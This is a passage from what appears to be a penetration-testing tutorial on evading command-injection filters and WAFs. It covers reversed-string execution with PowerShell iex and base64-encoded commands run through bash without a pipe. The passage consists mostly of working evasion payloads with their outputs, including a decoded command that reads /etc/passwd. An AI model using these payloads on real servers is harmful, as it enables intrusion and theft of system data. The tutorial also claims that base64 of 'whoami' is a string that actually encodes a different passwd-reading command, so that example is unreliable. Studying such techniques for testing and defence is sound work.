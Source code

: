 The same can be applied in `Windows.` We can first reverse a string, as follows:
```powershell-session
"whoami"[-1..-20] -join ''

imaohw
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:
```powershell-session
iex "$('imaohw'[-1..-20] -join '')"

21y4d
```
## Encoded Commands
helpful for commands containing filtered characters or characters that may be URL-decoded by the server.

Instead of copying an existing command online, we will try to create our own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example.

First, we'll encode the payload we want to execute (which includes filtered characters):
```bash
echo -n 'whoami' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:
```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
> Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.

- Even if some commands were filtered, like `bash` or `base64`, we could bypass that filter with the techniques we discussed in the previous section

We use the same technique with Windows as well. 

First, we need to base64 encode our string, as follows:
```powershell-session
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:
```bash
echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```
